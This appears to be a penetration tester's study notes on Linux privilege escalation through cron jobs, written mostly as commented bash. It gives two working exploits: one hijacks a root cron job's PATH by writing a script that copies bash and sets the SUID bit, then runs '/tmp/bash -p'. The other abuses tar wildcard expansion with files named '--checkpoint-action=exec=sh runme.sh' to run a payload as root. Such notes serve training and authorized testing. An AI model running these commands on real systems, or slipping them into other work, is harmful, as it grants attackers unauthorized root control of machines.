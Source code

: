 -- -
The main workflow here is to see what runs on a schedule from #cron or #systemd and then try to hijack it in some way. This can get creative :)
[[Dark Arts/Privesc/Linux/Enumeration/Cron Jobs|Enum]]
#### overwrite file
```bash
# lets say we found a scheduled task that looks like the following:
# * * * * * root overwrite.sh

# First, look at the PATH set to see where it looks for it, and lets say that path looks like the following:
# PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# so it checks the directories in that order. Look for any directory in that path that you can write to, in the example we can see it first looks through the user directory:
# /home/user
# that looks like a low privilege folder, so lets check it
ls -la /home/user

# that outputs:
# drwxr-xr-x 6 TCM user 4096 Jun 20 15:47 .

# This shows that we can write to that directory. This would also work if the overwrite.sh was writable by us. 

# so just simply make a malicious script, and output it to that location
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" >> /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh # only required if you write a new file, not necessary if you append to the file that already exists. 

# then just wait, after it gets run you can run your suid bit shell
/tmp/bash -p 
```
#### Wildcards
For this vector, you: 
- notice a script (or command) that is run via scheduled task. 
- the command uses a wild card in the command
- The script uses a command that uses a wild card
You may then be able to hijack the command being run with a wildcard to get it to hand you a shell. 
```bash
# for this example, we are going to see the following script in the crontab, but same process for if it's a direct command in crontab:
# * * * * * root /usr/local/bin/compress.sh

# it's an absolute path, so we need to see if the script can be manipulated, first check if you can overwrite it:
ls -la /usr/local/bin/compress.sh

# given the location, that is not likely. So next step is to read the script
cat /usr/local/bin/compress.sh

# and lets say we find the use of a wildcard by the following line in /usr/local/bin/compress.sh:
# cd /home/user
# tar czf /tmp/backup.tar.gz *

# again, you can also see that tar command with a wild card used directly in the crontab. Would be the same from here.

# create malicious script, for this example we write to /home/user
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > runme.sh
chmod +x runme.sh

# this part is specific to exploiting tar for a wild card
# create flag files in the directory where tar will be run.
touch '/home/user/--checkpoint=1'
touch '/home/user/--checkpoint-action=exec=sh\ runme.sh'

# so when tar runs with a wild card, it picks up all the files in pwd, so we are placing files that are named valid tar flags, so when they are picked up, they are processed as flags for tar, so they will point to executing sh and running your malicious script, which since it is run as aroot owned cron job, it will run it as root and spit out the suid shell
```